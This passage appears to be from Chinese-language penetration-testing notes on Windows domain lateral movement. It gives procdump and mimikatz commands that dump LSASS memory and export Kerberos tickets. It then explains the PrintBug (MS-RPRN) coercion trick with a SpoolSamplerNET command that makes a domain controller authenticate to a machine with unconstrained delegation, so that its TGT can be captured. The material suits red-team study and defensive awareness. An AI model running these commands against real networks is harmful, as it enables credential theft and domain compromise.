 
Procdump + mimikatz:

```powershell
procdump64.exe -accepteula -ma lsass.exe
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::tickets /export" "exit"
```

### & DC Print Bug

`PrintBug`: Windows 打印系统远程协议（`MS-RPRN`）中的一种旧的但是默认启用的方法 `RpcRemoteFindFirstPrinterChangeNotification（Ex）`强制任何运行了 `Spooler` 服务的计算机以通过`Kerberos` 或 `NTLM` 对攻击者选择的目标进行身份验证。任何经过身份验证的域用户都可以远程连接到 DC 的打印服务器（后台打印程序服务, Spooler Service）并请求更新新的打印作业，DC 将立即测试该连接，从而暴露 DC 计算机帐户的凭据（因为后台打印程序为 SYSTEM 拥有）。

![](/assets/images/move/2021-01-20-16-26-11.png)

攻击者向 DC(运行后台打印程序服务,Print Spooler Service) 发送 RpcRemoteFindFirstPrinterChangeNotification 请求，DC 收到后立即向攻击者所控制的一台 **主机账户开启了非约束委派** 的域内机器发起身份认证，攻击者可在非约束委派机器的 LSASS 进程中获取到 DC 主机账户的 TGT 票据。

[SpoolSamplerNET](https://github.com/leftp/SpoolSamplerNET) 请求 DC Spooler Service：

```powershell
SpoolSamplerNET.exe win10.ins.z 2012dc.ins.z
```

![](/assets/images/move/2021-01-20-17-17-53.png)
